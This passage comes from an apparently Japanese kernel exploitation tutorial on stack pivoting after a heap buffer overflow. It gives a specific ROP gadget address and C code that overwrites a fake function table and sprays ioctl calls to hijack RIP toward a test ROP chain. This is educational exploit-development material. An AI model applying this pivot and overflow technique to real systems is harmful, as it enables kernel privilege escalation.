 <div class="balloon_l">
  <div class="faceicon"><img src="../img/cow.jpg" alt="牛さん" ></div>
  <p class="says">
    <code>write</code>や<code>read</code>の引数は、バッファのアドレスがユーザーランドの範囲か確認されたり、サイズが大きすぎるとハンドラが呼ばれなかったりして、stack pivotには使えないことが多いよ。
  </p>
</div>

いくらカーネルとはいえ`mov rsp, rcx; ret;`のような愚直なgadgetは見つかりにくいですが、`push rcx; ...; pop rsp; ...; ret;`のようなgadgetは高確率で存在するので、この形を探すと見つかりやすいかもしれません。今回は次のgadgetを使います。
```
0xffffffff813a478a: push rdx; mov ebp, 0x415bffd9; pop rsp; pop r13; pop rbp; ret;
```
ひとまずROP chainに到達しているかを確認しましょう。以下の例ではROP chainの0xffffffffdeadbeefでクラッシュすれば成功です。
```c
  // 偽関数テーブルの書き込み
  unsigned long *p = (unsigned long*)&buf;
  p[12] = rop_push_rdx_mov_ebp_415bffd9h_pop_rsp_r13_rbp;
  *(unsigned long*)&buf[0x418] = g_buf;

  // ROP chainの用意
  p[0] = 0xffffffffdeadbeef;

  // Heap Buffer Overflow
  write(fd, buf, 0x420);

  // RIPの制御
  for (int i = 0; i < 100; i++) {
    ioctl(spray[i], 0xdeadbeef, g_buf - 0x10); // r13, rbpの分を引いた
  }
```


[^1]: オブジェクトのサイズはカーネルのバージョンによって変わる可能性があるので注意しましょう。
[^2]: これはLinuxが提供する双方向リストのポインタです。mutexなどを利用すると作られるためカーネル中の多くのオブジェクトに存在し、ヒープアドレスリークに役立ちます。
[^3]: その変数を使う関数を逆アセンブルしてアドレスを特定する方法もあります。